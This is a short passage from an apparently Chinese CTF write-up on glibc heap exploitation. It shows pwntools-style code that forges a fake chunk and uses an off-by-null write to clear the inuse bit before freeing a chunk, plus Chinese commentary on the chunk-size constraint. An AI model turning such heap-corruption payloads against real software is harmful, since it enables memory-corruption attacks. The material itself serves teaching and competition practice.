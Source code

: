 
[![](assets/1701606615-2d94ab8b0b073aded2ce4743411ba479.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213014-1be109ac-83bb-1.png)

```plain
pl=p64(0)+p64(0xf1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0)
pl=pl.ljust(0xf0,'\x00')
pl+=p64(0xf0)
edit(7,pl)
```

[![](assets/1701606615-9f348879fb2fde576e243c841d36577b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213026-232a5c86-83bb-1.png)  
这里大小为0x100=就是为了方便覆盖:这里是伪造的chunk，fd和bk都为伪造chunk的chunk头，然后伪造了next\_chunk\_pre\_size，然后利用了off by null置空inuse，这里因为把'\\n'变成了'\\x00'，所以这里最后只会保留倒数第三位，所以才要求chunk大小为0x100或者0x200或者0x300

```plain
delete(8)
```
